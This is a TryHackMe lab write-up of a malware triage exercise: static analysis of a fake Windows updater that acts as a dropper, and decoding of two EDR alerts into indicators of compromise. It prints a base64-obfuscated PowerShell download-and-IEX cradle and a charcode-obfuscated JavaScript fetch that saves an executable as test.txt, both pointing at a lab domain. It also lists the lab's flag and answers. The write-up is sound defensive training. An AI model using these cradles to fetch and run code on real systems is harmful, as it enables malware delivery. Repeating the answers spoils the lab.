# ShadowTrace — TryHackMe Write-up

Malware triage and alert correlation. A fake Windows updater is analysed statically to pull out IOCs, then two EDR alerts on the same host are decoded and tied back to the same infrastructure.

> All analysis was performed statically inside the TryHackMe lab VM. The binary was never executed.

---

## The scenario

Night shift, alone in the SOC. A manager calls: a suspicious file turned up on a user's machine and they want it looked at now. The file is `C:\Users\DFIRUser\Desktop\windows-update.exe` — it looks like a Windows updater, but it isn't one. While I'm looking at it, the EDR fires two more alerts on the same host.

The job: pull IOCs out of the binary, then correlate the alerts.

---

## 1. The binary

### Architecture

Opened it in Detect It Easy.



**PE64 / AMD64 — 64-bit console application**, built with Visual Studio 2022 (MSVC). There's also a PDB file path left in the debug data, which is sloppy for something pretending to be a Microsoft updater.

| | |
|---|---|
| Architecture | PE64 / AMD64 (64-bit) |
| Compiler | Microsoft Visual C/C++ (19.36) |
| Toolchain | Visual Studio 2022, v17.6 |
| Subsystem | Console |

### Hash

```powershell
Get-FileHash -Path .\windows-update.exe -Algorithm sha256
```



**SHA-256**

```
B2A88DE3E3BCFAE4A4B38FA36E884C586B5CB2C2C283E71FBA59EFDB9EA64BFC
```

First thing to submit to VirusTotal or the threat intel feed, and the first IOC to push to the team.

### What it does

The strings gave up the payload logic straight away — the developer left the status messages in plain text.



```
[*] Downloading to:
[!] Download failed. HRESULT:
[!] Failed to execute file.
[*] Executed file. Waiting...
[*] Execution complete. Deleting file...
[*] File deleted.
```

Download → execute → delete itself. Classic dropper behaviour, and the self-delete is there to make life harder for whoever looks at the box afterwards.

### URL



```
http://tryhatme.com/update/security-update.exe
```

Hardcoded, plain HTTP, and the filename (`security-update.exe`) is chosen to look legitimate next to the parent process name.

### Domain



```
responses.tryhatme.com
```

This one sits right next to a reference to `C:\Windows\System32\drivers\etc\hosts` and a `[!] Failed to open hosts file.` error — so the binary also tries to read or modify the hosts file. Worth flagging on its own: hosts-file tampering is how an attacker silently redirects a hostname or blackholes security-vendor update domains.

### The hidden flag

Further down the strings there's another `tryhatme.com/...` URL with a long base64 blob appended (visible in the strings screenshot above). Dropping it into CyberChef with **From Base64**:

```
THM{you_g0t_some_IOCs_friend}
```

### Imports



**`WS2_32.dll`** — the Windows Sockets library, 15 imports including `InetPtonW`. `urlmon.dll` is loaded alongside it, which is what handles the actual HTTP download.

A legitimate Windows updater does not need to hand-roll raw sockets. Between that, the hardcoded plain-HTTP URL, the self-delete routine and the hosts-file access, this is a dropper — no ambiguity.

---

## 2. The EDR alerts

Two Critical alerts on `WIN-SRV-01.tryhackme.local`, user `CORPsvc_backup`, same morning.

### Alert 1 — 08:13, `powershell.exe`



```powershell
(new-object system.net.webclient).DownloadString(
  [Text.Encoding]::UTF8.GetString(
    [Convert]::FromBase64String("aHR0cHM6Ly90cnloYXRtZS5jb20vZGV2L21haW4uZXhl")
  )
) | IEX;
```

The URL is base64-encoded, decoded at runtime, downloaded and piped straight into `IEX`. Nothing ever touches disk — a fileless download cradle.

CyberChef → **From Base64**:



```
https://tryhatme.com/dev/main.exe
```

Same domain as the binary. That's the link between the file and the alert.

### Alert 2 — 09:13 and 09:31, `chrome.exe`



This one is JavaScript running in the browser, and the URL is hidden as decimal character codes instead of base64:

```javascript
fetch([104,116,116,112,115,58,47,47,114,101,97,108,108,121,115,101,99,117,114,101,
117,112,100,97,116,101,46,116,114,121,104,97,116,109,101,46,99,111,109,47,117,112,
100,97,116,101,46,101,120,101].map(c=>String.fromCharCode(c)).join(''))
  .then(r=>r.blob())
  .then(b=>{const u=URL.createObjectURL(b);const a=document.createElement('a');
  a.href=u;a.download='test.txt';document.body.appendChild(a);a.click();a.remove();
  URL.revokeObjectURL(u);});
```

CyberChef → **From Charcode**, delimiter `Comma`, base `10`:



```
https://reallysecureupdate.tryhatme.com/update.exe
```

The subdomain is doing social engineering on its own — `reallysecureupdate` is built to look reassuring in a URL bar or a proxy log.

### The saved filename



```
test.txt
```

Note what the script does: it fetches an `.exe` but forces the browser to save it as `test.txt`. The extension is a lie — meant to get past a casual look at the Downloads folder and anything filtering on file type. The file on disk is still a PE.

---

## IOCs

| Type | Value |
|---|---|
| SHA-256 | `B2A88DE3E3BCFAE4A4B38FA36E884C586B5CB2C2C283E71FBA59EFDB9EA64BFC` |
| Filename | `windows-update.exe` |
| URL | `http://tryhatme.com/update/security-update.exe` |
| URL | `https://tryhatme.com/dev/main.exe` |
| URL | `https://reallysecureupdate.tryhatme.com/update.exe` |
| Domain | `tryhatme.com` |
| Domain | `responses.tryhatme.com` |
| Domain | `reallysecureupdate.tryhatme.com` |
| Dropped file | `test.txt` (actually a PE) |
| Affected host | `WIN-SRV-01.tryhackme.local` |
| Account | `CORPsvc_backup` |

---

## Answers

| Question | Answer |
|---|---|
| Architecture of `windows-update.exe` | `AMD64` (PE64, 64-bit) |
| SHA-256 | `B2A88DE3E3BCFAE4A4B38FA36E884C586B5CB2C2C283E71FBA59EFDB9EA64BFC` |
| URL IOC | `http://tryhatme.com/update/security-update.exe` |
| Domain IOC | `responses.tryhatme.com` |
| Decoded flag | `THM{you_g0t_some_IOCs_friend}` |
| Socket library | `WS2_32.dll` |
| URL from the `powershell.exe` alert | `https://tryhatme.com/dev/main.exe` |
| URL from the `chrome.exe` alert | `https://reallysecureupdate.tryhatme.com/update.exe` |
| Filename saved by the `chrome.exe` alert | `test.txt` |

---

## Response actions

1. **Isolate `WIN-SRV-01`.** Three download attempts to the same infrastructure in one morning is not a one-off click.
2. **Block all three domains** at the proxy and at DNS, and blocklist the SHA-256 at the endpoint.
3. **Hunt the hash and URLs across the estate.** If one host was targeted, others probably were too.
4. **Investigate `CORPsvc_backup`.** A service account browsing the web and running PowerShell is an alert in itself — that's either credential misuse or a badly configured account being used interactively.
5. **Preserve the hosts file** from the box before any reimage, since the binary tries to touch it.
6. **Search Downloads folders fleet-wide for `test.txt`** and check the file header rather than the extension.

---

## Takeaways

**Correlation is the whole exercise.** Three different delivery methods — a dropped EXE, a fileless PowerShell cradle, and a browser fetch — all resolving back to the same domain. Any one of them alone looks like a minor incident. Together they're one campaign. That's the part you miss if you work alerts one at a time and close them individually.

**The obfuscation was cheap on purpose.** Base64 in PowerShell, decimal char codes in JavaScript, a `.txt` extension on a PE. None of it is sophisticated — it's built to beat a quick glance, not real analysis. Which is exactly the argument for not stopping at the quick glance.

**Static analysis got everything.** No sandbox, no execution. Strings, the import table and a PE header gave up the full attack chain, and CyberChef did the rest.
